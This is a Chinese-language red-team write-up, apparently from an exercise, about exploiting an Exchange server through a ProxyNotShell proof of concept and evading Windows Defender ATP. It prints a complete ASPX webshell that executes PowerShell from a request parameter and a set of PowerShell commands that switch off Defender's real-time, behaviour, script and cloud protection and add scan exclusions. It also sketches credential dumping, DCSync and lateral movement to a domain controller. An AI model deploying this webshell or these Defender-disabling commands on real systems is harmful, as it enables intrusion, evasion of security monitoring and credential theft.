  
修改poc后写入使用https://github.com/7BitsTeam/ProxyMaybeShell/blob/main/proxynotshellfileWrite.py访问，写入成功但报错：   
  
# bypass windows definder ATP  
  
更换多个shell后发现列目录等文件操作没问题  
  
  
  
但执行命令就会被拒绝，查看目录可以发现存在较新的windows definder atp，使用https://github.com/ThePacketBender/webshells/blob/master/POWERshell.aspx可以通过调用c# powershell相关的dll绕过definder部分限制。在这个漏洞利用的情境下使用控件表单的webshell非常麻烦，稍微修改一下webshell：  
```
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Collections.ObjectModel"%>
<%@ Import Namespace="System.Management.Automation"%>
<%@ Import Namespace="System.Management.Automation.Runspaces"%>
<%@ Assembly Name="System.Management.Automation,Version=1.0.0.0,Culture=neutral,PublicKeyToken=31BF3856AD364E35"%>
 
<!DOCTYPE html>
 
<script Language="c#" runat="server">
 
    private static string powershelled(string scriptText)
    {
        try
        {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
 
            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(scriptText);
            pipeline.Commands.Add("Out-String");
 
            Collection<PSObject> results = pipeline.Invoke();
            runspace.Close();
            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
                stringBuilder.AppendLine(obj.ToString());
 
            return stringBuilder.ToString();
        }catch(Exception exception)
        {
            return string.Format("Error: {0}", exception.Message);
        }
    }
    
    protected void Page_Load(object sender, EventArgs e)
    {
       Response.Write(powershelled(Request.Params["cmd"]));
    }
</script>


```  
  
可以执行部分powershell命令：  
  
  
启动敏感进程依旧被拦截：  
  
  
# MORE  
  
通过c#调用powershell相关dll可以实现绕过ATP执行部分命令，但这样还不足够。我们可以使用powersell关闭definder的一些功能：  
```
# Disables realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true

# Disable behaviour monitoring
Set-MPPreference -DisableBehaviourMonitoring $true

# Make exclusion for a certain folder
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disables cloud detection
Set-MPPreference -DisableBlockAtFirstSeen $true

# Disables scanning of .pst and other email formats
Set-MPPreference -DisableEmailScanning $true

# Disables script scanning during malware scans
Set-MPPReference -DisableScriptScanning $true

# Exclude files by extension
Set-MpPreference -ExclusionExtension "ps1"

# Turn off everything and set exclusion to "C:\Windows\Temp"
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"

```  
  
对于ATP的绕过手段有很多种，笔者一般使用三种办法：  
- 使用c#调用winrm，实现winrm进程启动cmd.exe而不是w3wp进程启动cmd.exe。可以继承当前shell上下文的权限，但只能是管理员调用(域内机器)。适用于exch这种system启动的shell或有域身份的shell。winrm相关库：http://windowsbulletin.com/files/dll/dell-inc/dell-amt-vpro-plugin/interop-wsmanautomation-dll  
  
- c#调用powershell的反射类型，即上面提到的webshell：https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
https://www.linkedin.com/pulse/bypass-security-simple-trick-execute-csharp-dll-rundll32exe-brok  
  
- 使用c#实现接下来需要的完整功能，如导出ldap，dumplsass，甚至包括直接进行dcsync操作。在之前的文章《记一次团队内部的红蓝对抗-攻击篇 》中我们曾经使用c#导出过spn。  
  
经过一系列操作后，我们获取到了本地administrator用户的hash，横向移动后在dc获取到了flag。  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
